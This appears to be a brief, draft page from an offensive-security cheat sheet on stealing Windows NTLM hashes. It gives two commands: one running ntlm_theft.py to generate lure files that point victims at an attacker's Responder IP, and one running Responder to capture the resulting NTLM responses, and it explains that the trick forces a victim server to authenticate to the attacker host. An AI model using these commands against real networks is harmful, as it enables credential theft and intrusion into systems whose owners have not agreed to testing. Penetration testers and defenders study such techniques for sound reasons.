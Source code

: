```yaml
---
label: NTLM Hash Stealing
disabled: true
---
```


{/*TODO: ntlm_theft.py, responder, .ini files, UNC path*/}

Generate multiple files to steal NTLM response using [https://github.com/Greenwolf/ntlm_theft](ntlm_theft.py) script.

```bash
# Generate all files
python ntlm_theft.py -s $responder_ip -f $filename -g all

# Grab all NTLM responses
responder -I $net_interface
```

Places and tricks to steal NT hashes. The trick is to force victim server to auth attempt with attacker host. [Check out places to steal NT hash](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds).
